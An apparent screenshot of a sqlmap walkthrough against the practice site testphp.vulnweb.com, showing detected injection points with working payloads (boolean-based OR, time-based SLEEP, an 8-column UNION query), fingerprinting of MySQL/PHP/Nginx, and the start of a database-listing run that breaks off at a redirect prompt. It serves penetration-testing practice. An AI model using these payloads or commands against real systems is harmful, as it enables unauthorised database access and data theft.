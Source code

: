```
[13:22:49] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:22:49] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:22:49] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:22:49] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:23:04] [INFO] target URL appears to be UNION injectable with 8 columns
[13:23:06] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[13:23:06] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 91 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: uname=-9080' OR 3819=3819#&pass=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=' AND (SELECT 5751 FROM (SELECT(SLEEP(5)))TbTU)-- JgtD&pass=

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: uname=' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b787871,0x49674f717a43766442797866754b77625a4249676a535150615562525262734d6269756447477746,0x71716a7a71),NULL,NULL,NULL#&pass=
---
[13:24:08] [INFO] the back-end DBMS is MySQL
[13:24:08] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[13:24:12] [INFO] fetched data logged to text files under '/home/sherwinowen/.local/share/sqlmap/output/testphp.vulnweb.com'

[*] ending @ 13:24:11 /2021-10-14/
```

**Get the databases**

```
sherwinowen@owenbox:~/my_tools/sqlmap$ python3 sqlmap.py -r request.txt --dbs
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10.15#dev}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:27:45 /2021-10-14/

[13:27:45] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[13:28:03] [INFO] resuming back-end DBMS 'mysql' 
[13:28:03] [INFO] testing connection to the target URL
got a 302 redirect to 'http://testphp.vulnweb.com:80/login.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
```